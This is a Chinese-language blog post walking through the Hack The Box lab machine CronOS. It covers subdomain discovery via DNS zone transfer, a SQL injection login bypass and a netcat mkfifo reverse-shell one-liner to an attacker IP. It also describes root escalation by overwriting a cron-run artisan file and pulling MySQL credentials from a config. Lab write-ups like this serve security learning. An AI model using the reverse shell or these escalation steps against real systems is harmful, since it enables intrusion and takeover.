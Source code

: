 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jihcZS5IrOFIKzjZ09PVSQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **98** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/11

靶机难度：初级（4.5/10）

靶机发布日期：2017 年 10 月 13 日

靶机描述：

CronOS focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/1prMbIpCa3humOrLAChJmsjMl4Kxia7vzrQE59ny2bGibWz5Cr8YzNvia9NXzt8O2jiclnVwHYxubpFU1Q6dX9FRCQ/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/5PYA1G5YGGkjAN1M3sw2tjaT2EzjYhfiax6biaK6IUQxeAFY5cgZQtGqXrMp1oRbNic8EDqpxsg5BjArxBhibLM5XQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vnlB7ClKQLDcYPFicibhNb8L5FUh5tljySVKicFichHhCn6fibeWJicZniaqHg/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.13....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9v5icWKWpPX5tNbuibPVzOJTwjX6NJlTlicWiaicwCFQOKZ29NBOPXibHMs6EA/640?wx_fmt=png)

Nmap 发现了一个 OpenSSH 服务器，一个 DNS 服务器和一个 Apache 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vM15mdhZicF2icuHcFBpsksjFrhg2RnDVqfyjSsU0tgfq7AJQj6psHuCg/640?wx_fmt=png)

这里应该是存在子域名信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vwUiaPicA85CduItic4fIslPGkson8dZj3j4d7jpQLp9enb6fMEOs6xKAA/640?wx_fmt=png)

尽管必须猜测初始域名 cronos.htb，可以通过进行区域传输来枚举其余的子域，将 cronos.htb 添加到 / etc/hosts 文件后，使用 dig 发现了 admin.... 域名... 继续添加即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vhiaAxke8tqGUlslrdZWGppibsiap5NuxXdZNjICnKnUb4zWibm9hliaavOw/640?wx_fmt=png)

通过获得的子域名，添加到 hosts 后，访问是登陆页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vONYfJ1sP8wroJibX6ic9XflNujceuc7rXTmPET9HsB7IHfxq3o3rOJ8A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vc4vLH70me3jYEcewW9wgpiaNBZP9Ypibzcsx97RsCCjvCn4t6mA1ESCg/640?wx_fmt=png)

通过测试... 存在 sql 注入... 简单的注入登陆进来了... 是一个 cmd 类似的命令框架... 这就直接提权即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vZjynZiaMINVmB5Zfb8f0OP2qt2siaCJka7RZLWCLUTRg5C7Jbtf07x3Q/640?wx_fmt=png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 4444 >/tmp/f
```

直接一句话提权输入... 获得了低权 shell，成功获得 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vwmPV7rkcYh8kw6VaOv6fesGDY0vTTXf7p15BrY3bUFul3Me1z3VtzA/640?wx_fmt=png)

利用 https://github.com/rebootuser/LinEnum 工具上传枚举 linux 服务器所有信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vMJR7afqYb5ECxs5DLVyZv1wKSvwAkB0wy9vs1C7fPTgfT7qlI20Qhg/640?wx_fmt=png)

通过集体枚举，查看到 crontab 每分钟以 root 身份执行 / var/www/laravel/artisan... 并且进入查看后具有写入等功能...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPSfLdicufnaoLTaicoZY8N9vZXuunYRZiam7KlFQibE2280obE7gHncbsHNgdb3YiaqgdpjQVfCIOmEZQ/640?wx_fmt=png)

这里我直接利用 kali 自导的 shell 覆盖提权.. 成功获得了 root 信息...（常规操作）

或者还可以 echo 写入 shell 命令，等等方式提权，随便怎么弄...

  

当然还可以在 / var/www/admin/config 里头查看到 mysql 账号密码... 通过访问数据库获得 admin 的哈希密码... 爆破即可... 需要时间....

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台简单的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)